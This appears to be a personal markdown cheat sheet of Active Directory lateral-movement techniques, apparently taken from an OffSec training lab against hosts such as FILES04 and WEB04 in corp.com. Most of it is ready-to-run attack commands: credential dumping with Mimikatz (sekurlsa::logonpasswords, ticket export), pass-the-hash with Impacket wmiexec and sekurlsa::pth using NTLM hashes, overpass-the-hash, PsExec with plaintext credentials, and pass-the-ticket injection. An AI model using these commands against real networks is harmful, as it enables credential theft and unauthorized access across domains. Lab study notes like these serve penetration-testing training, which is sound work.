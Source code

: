# Lateral movement  
1. DC1 --> MS02
   - RDP (psexec)  
   - Pass-the-Hash (PtH)    
   - Pass-the-Ticket (PtT)    
   - Silver Ticket  
3. MS02 --> DC1
   - Dump logged-in credentials `sekurlsa::logonpasswords`  
   - Kerberos Tickets / TGT `sekurlsa::tickets`  
   - RDP (password spray)  
   - DCSync  
   - Pass-the-Hash (PtH)  
   - Silver Ticket (Forge Kerberos ticket)

- 👥 PsExec
  - CLIENT74 (offsec local admin) to FILES04 (jen local admin)
  - need admin credentials, Admin$ share, SMB port 445  
    `PS C:\Tools\SysinternalsSuite> .\PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd`
    `C:\Windows\system32>hostname`  $FILES04
- Pass the Hash
  - Kali to FILES04 (administrator local admin)
  - local/domain account from `lsadump::sam`, `lsadump::dcsync`, admin right on target
    ```
    #Impacket
    kali@kali:~$ /usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
    C:\>hostname #FILE04
    
    #wmiexec
    impacket-wmiexec -hashes aad3b435b51404eeaad3b435b51404ee:cc36cf7a8514893efccd332446158b1a corp.com/administrator@192.168.1.10

    #Mimikatz
    sekurlsa::pth /user:Administrator /domain:corp.com /ntlm:cc36cf7a8514893efccd332446158b1a
    ```
- 👥 Overpass the Hash (Turn NTLM into kerberos ticket and request TGS) 
  - CLIENT76 (offsec and run a process as jen) to FILES04 (jen local admin)
  - Dump hash for 'jen'
    ```
    mimikatz # privilege::debug
    mimikatz # sekurlsa::logonpasswords
    ```
  - Create a new logon session with the supplied hash  
    `mimikatz # sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershel`
  - Map a network share on a remote server  
    `PS C:\Windows\system32> net use \\files04`
  - List kerberos ticket  
    `PS C:\Windows\system32> klist`  #server: krbtgt, cifs
  - Remote by PsExec  
    `PS C:\tools\SysinternalsSuite> .\PsExec.exe \\files04 cmd`  
- Pass the Ticket
  - Use dave session (dave has access to WEB04 but jen no) to extract all current TGT/TGS and inject into our session
  - CLIENT76 (jen)  #access denied for ls \\web04\backup
  - Export TGT/TGS to disk
    ```
    mimikatz #privilege::debug
    mimikatz #sekurlsa::tickets /export
    PS C:\Tools> dir *.kirbi
    ```
  - Pick any TGS ticket in dave@cifs-web04.kirbi and inject it to our session  
    `mimikatz # kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi`  